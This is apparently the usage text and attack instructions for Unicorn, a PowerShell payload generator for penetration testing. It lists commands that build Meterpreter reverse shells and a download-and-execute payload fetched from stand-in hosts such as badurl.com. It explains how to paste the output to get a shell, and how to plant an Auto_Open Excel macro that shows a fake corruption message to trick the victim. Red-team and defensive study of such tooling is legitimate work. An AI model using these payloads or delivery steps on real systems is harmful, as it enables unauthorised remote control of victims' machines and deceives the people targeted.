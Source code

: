 ```
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```


###                -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

###                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you do
that, you will have a developer tab. Create a new macro, call it Auto_Open and paste the generated code
into that. This will automatically run. Note that a message will prompt to the user saying that the file
is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is  tricking the
victim to thinking the excel document is corrupted. You should get a shell through powershell injection
after that.
